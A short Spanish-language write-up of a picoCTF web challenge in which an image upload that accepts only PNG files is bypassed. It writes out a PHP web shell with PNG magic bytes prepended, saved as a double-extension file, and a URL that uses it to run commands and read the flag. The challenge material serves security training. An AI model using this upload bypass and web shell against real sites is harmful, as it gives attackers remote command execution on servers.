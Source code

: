 #Software #Hacking #WebExplotation #Web #Internet 
# Definición
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:63789/)!
# Hints
- (none)
# Solución
1. **Crear el archivo [[PHP]] malicioso**:
   ```bash
   echo -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]); ?>' > shell.png.php
   ```

2. **Súbirlo al servidor**:
   - Sube el archivo `shell.png.php` (el servidor validará que "parezca" PNG).

3. **Ejecuta comandos para obtener la bandera**:
   - Abre esta URL en tu navegador (reemplaza `<PUERTO>` si es necesario):
   - Esto listará los archivos en el directorio raíz. Busca un archivo `.txt` con nombre aleatorio (ej: `TG4SXKQ.txt`).

4. **Lee el archivo de la bandera**:
   - Ejecuta:
     ```
     http://atlas.picoctf.net:63789/uploads/shell.png.php?cmd=cat%20../NOMBRE_DEL_ARCHIVO.txt
     ```
   - La bandera estará en el contenido de este archivo.
## Respuesta